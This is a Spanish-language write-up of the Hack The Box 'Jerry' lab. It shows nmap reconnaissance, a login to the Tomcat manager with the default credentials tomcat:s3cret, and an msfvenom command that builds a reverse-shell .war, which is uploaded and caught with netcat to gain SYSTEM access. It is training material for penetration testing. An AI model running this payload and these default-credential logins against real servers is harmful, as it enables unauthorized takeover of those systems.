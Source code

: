 ```yaml
---
title: Jerry
description: "Máquina Jerry de Hackthebox"
date: 2024-07-23 21:00:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Windows
tags:
  - Information Leakage
  - Abusing Tomcat
image:
  path: /assets/img/Jerry/Jerry.png
---
```


## Skills

- Information Leakage
- Abusing Tomcat [Intrusion & Privilege Escalation]
  
## Certificaciones

- eJPT

## Descripción

`Jerry` es una máquina `easy windows`, hay un tomcat por el `puerto 8080`, usando las `credenciales` por `defecto`accederemos a `/manger/html` donde subiremos un `.war` malicioso que usaremos para ganar `acceso` a la máquina víctima como usuario `Administrator`

---

## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `windows` suele ser `128`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.191.206
PING 10.129.191.206 (10.129.191.206) 56(84) bytes of data.
64 bytes from 10.129.191.206: icmp_seq=1 ttl=127 time=165 ms
64 bytes from 10.129.191.206: icmp_seq=2 ttl=127 time=131 ms
^C
--- 10.129.191.206 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 131.328/148.125/164.923/16.797 ms
```

### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -Pn -n -v 10.129.191.206 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:29 CEST
Initiating SYN Stealth Scan at 18:29
Scanning 10.129.191.206 [65535 ports]
Discovered open port 8080/tcp on 10.129.191.206
Completed SYN Stealth Scan at 18:29, 26.38s elapsed (65535 total ports)
Nmap scan report for 10.129.191.206
Host is up (0.061s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.44 seconds
           Raw packets sent: 131089 (5.768MB) | Rcvd: 21 (924B)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 8080 10.129.191.206 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:30 CEST
Nmap scan report for 10.129.191.206
Host is up (0.059s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds
```

### Web Enumeration

Cuando accedemos a `http://10.129.191.206:8080` vemos lo siguiente

![](/assets/img/Jerry/image_1.png)

Cuando intentamos acceder a `/manger/html` nos aparece este panel de `login`

![](/assets/img/Jerry/image_2.png)

Al usar un `listado` de `credenciales` por `defecto` que podemos encontrar en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials) ganamos acceso con las credenciales `tomcat:s3cret`

![](/assets/img/Jerry/image_3.png)

## Intrusión

Creamos con `msfvenom` un archivo `.war` para ganar acceso a la máquina víctima

```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.16 LPORT=443 -f war -o revshell.war  
```

`Subimos` el archivo `.war malicioso`

![](/assets/img/Jerry/image_4.png)

Nos ponemos en `escucha` mediante `netcat` en el `puerto 443`

```
# nc -nlvp 443
```

Hacemos `click` sobre el `archivo`, lo que nos llevará a `http://10.129.191.206:8080/revshell/` ejecutándose y enviándonos una `reverse shell` a nuestro equipo

![](/assets/img/Jerry/image_5.png)

Ganamos acceso al equipo como `nt authority\system`

```
# nc -nlvp 443      
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.191.206] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

